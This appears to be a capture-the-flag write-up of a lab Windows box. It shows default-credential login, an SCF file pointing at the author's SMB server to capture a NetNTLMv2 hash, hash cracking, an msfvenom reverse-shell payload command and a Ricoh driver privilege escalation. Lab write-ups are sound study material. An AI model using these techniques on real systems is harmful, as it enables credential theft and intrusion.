<p style="text-align:center">
  
</p>

<p>
  
  
  
</p>

> **TL;DR** - A printer management panel on port 80 opens with `admin:admin`, and it has a firmware upload that really just drops files on an SMB share. So I upload a malicious SCF file whose icon points at my own SMB server. When `tony` browses that share, Explorer tries to load the icon and leaks his NetNTLMv2 hash, which I crack to `liltony` for a WinRM shell (user.txt). On the box, the console history shows a `RICOH PCL6 UniversalDriver` was installed, and that driver has a known local privesc (the Metasploit `ricoh_driver_privesc` module), which lands me `NT AUTHORITY\SYSTEM` and root.

## Recon

Started with a full port scan against the target.

```bash
nmap -sV -sC -p- 10.129.100.161 -oN nmap/driver
```



So I started with the web server on port 80. It prompted me for credentials, and I just tried the classic `admin:admin`.



And I was in. Inside the page there's only one thing that looks interesting: a feature to upload printer firmware.



## Foothold (SCF hash leak)

The upload doesn't really flash any firmware, it just saves your file onto a shared folder that the staff browse. That's the opening for an SCF attack. An SCF (Shell Command File) is a little Windows file that can set a folder's icon, and if you point that icon at a UNC path like `\\my-ip\share\`, then the moment someone opens the folder in Explorer, their machine tries to authenticate to that path and leaks their NetNTLM hash. So I made one pointing at my own SMB server.

```ini
[Shell]
Command=2
IconFile=\\10.10.17.214\share\
[Taskbar]
Command=ToggleDesktop
```

Then I fired up Responder to catch the authentication, and almost instantly I got a hit.



`tony` reached out to my share. Let's crack his hash.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt tony.hashes
```



Got it, `tony:liltony`. Let's validate it.



And he's even got WinRM access, so let's log in and see what we get.

```bash
evil-winrm -i 10.129.100.161 -u tony -p liltony
```



User flag `7316b811db0e04fc5d44fe5e4abbacf6`. That was fast, let's keep moving.

## Privilege escalation (Ricoh driver)

I transferred winPEAS to the box to look for privesc paths, and the interesting bit was the console history.



Reading through it, there was a printer being added with the driver `RICOH PCL6 UniversalDriver V4.23`. I searched that driver name online and found it has a known local privilege escalation (CVE-2019-19363), and there's a ready Metasploit module for it. So I built a meterpreter payload and pushed it to the target with evil-winrm.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.17.214 LPORT=4444 -f exe > shell.exe
```

Then I caught the session with `multi/handler`, switched to `exploit/windows/local/ricoh_driver_privesc`, pointed it at my session and ran it. The Ricoh driver installs with weak permissions on its directory, so the module abuses that to run code as SYSTEM, and I got `NT AUTHORITY\SYSTEM`.



And with that I grabbed the root flag.



`3aae19b70c426866e906afdbe18549e8`

## Kill chain summary

| Phase | Vector | Result |
|---|---|---|
| Recon | printer panel on :80, `admin:admin` | firmware upload (writes to a share) |
| Foothold | SCF file -> Responder captures NetNTLMv2 | `tony` hash -> cracked (`liltony`) |
| User | WinRM as tony | user.txt |
| Root | Ricoh PCL6 driver privesc (CVE-2019-19363) | SYSTEM (root.txt) |

## Final thoughts

Quick and clean box, a nice little intro to the SCF trick, which is one of those "wait, that actually works?" attacks the first time you see it. You never even touch the printer, you just let Windows leak the hash for you when someone opens a folder. The privesc is more of a "read the history, google the driver" moment than anything clever, but it's a good reminder that printer drivers are a classic soft spot on Windows. Fun Easy.
